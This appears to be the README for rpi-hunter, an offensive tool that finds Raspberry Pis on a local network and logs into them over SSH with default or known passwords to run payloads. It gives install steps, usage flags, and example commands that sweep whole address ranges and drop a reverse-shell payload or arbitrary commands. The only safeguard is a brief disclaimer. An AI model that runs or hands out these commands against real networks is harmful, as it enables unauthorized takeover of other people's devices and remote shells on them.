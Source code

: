# rpi-hunter
Automate discovering and dropping payloads on LAN Raspberry Pi's via ssh

![alt text](https://github.com/BusesCanFly/rpi-hunter/blob/master/screenshot.png "Who doesn't love ASCII art?")

rpi-hunter is  useful when there are multiple Raspberry Pi's on your LAN with default or known credentials, in order to automate sending commands/payloads to them.

# GUIDE:

## Installation

1. Install dependencies: `sudo pip install -U argparse termcolor` and `sudo apt -y install arp-scan tshark sshpass`
2. Download rpi-hunter: `git clone https://github.com/BusesCanFly/rpi-hunter`
3. Navigate to rpi-hunter: `cd ./rpi-hunter`
4. Make rpi-hunter.py executable: `chmod +x rpi-hunter.py`
* One line variant: `sudo pip install -U argparse termcolor && sudo apt -y install arp-scan tshark sshpass && git clone https://github.com/BusesCanFly/rpi-hunter && cd ./rpi-hunter && chmod +x rpi-hunter.py`

## Usage
```
usage: rpi-hunter.py [-h] [--list] [--no-scan] [-r IP_RANGE] [-f IP_LIST]
                     [-c CREDS] [--payload PAYLOAD] [-H HOST] [-P PORT]
                     [--safe] [-q]

optional arguments:
  -h, --help         show this help message and exit
  --list             List available payloads
  --no-scan          Disable ARP scanning
  -r IP_RANGE        IP range to scan
  -f IP_LIST         IP list to use (Default ./scan/RPI_list)
  -u UNAME           Username to use when ssh'ing
  -c CREDS           Password to use when ssh'ing
  --payload PAYLOAD  (Name of, or raw) Payload [ex. reverse_shell or 'whoami']
  -H HOST            (If using reverse_shell payload) Host for reverse shell
  -P PORT            (If using reverse_shell payload) Port for reverse shell
  --safe             Print sshpass command, but don't execute it
  -q                 Don't print banner
```

* Run `./rpi-hunter.py --list` to see avalible payloads.
* Payloads can be specified by the payload name from `--list` or as raw input
    * ex. `--payload reverse_shell` or `--payload [your cli command here]`

* Example usage: 
	* `./rpi-hunter.py -r 192.168.0.0/16 --payload reverse_shell -H 127.0.0.1 -P 1337`
	* `./rpi-hunter.py -r 192.168.2.0/16 -c lamepassword --payload "ls -lah"

## Disclaimer
## The standard internet fun disclaimer applies. Don't commit crimes, be responsible.

## I am in no way responsible for anything and everything you do with rpi-hunter.

